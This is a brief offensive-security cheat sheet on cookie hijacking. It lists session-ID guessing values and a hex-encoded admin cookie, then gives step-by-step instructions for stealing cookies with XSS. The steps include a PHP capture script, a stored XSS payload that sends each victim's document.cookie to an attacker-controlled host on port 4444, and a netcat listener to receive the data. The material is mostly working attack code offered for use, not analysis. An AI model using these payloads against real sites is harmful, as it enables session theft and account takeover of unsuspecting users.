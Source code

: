 ```yaml
---
title: Cookie Hijacking
desc: 
tags: [Burp, Cookie, Netcat, Web]
alts: [XSS]
render_with_liquid: false
---
```


## 1. Cookie Manipulation

```html
Cookie: PHPSESSID=0
Cookie: PHPSESSID=1
Cookie: PHPSESSID=999

<!-- ASCII Hex -->
Cookie: PHPSESSID=3836382d61646d696e
```

<br />

## 2. PHP Cookie Grabbing with XSS

1. **Create the Payload for Grabbing the Cookie when the Other UserS will Access Your Machine.**

    In your local machine, create the payload to get the other cookie values.

    ```php
    // steal_cookie.php

    <?php echo $_GET['cookie']; ?>
    ```

2. **Create the JavaScript Code to Force Users to Access Your Machine which Shows the Victim's Cookie Value.**

    ```javascript
    <script>document.location = 'http://<attacker-ip>:4444/steal_cookie.php?cookie='+document.cookie</script>
    ```

3. **POST Request with This JavaScript Code to the Target Web Page.**

4. **Open Listner in Your Local Machine and Wait for the Other Users will Access the Target Web Page.**

    ```sh
    nc -lvnp 4444
    ```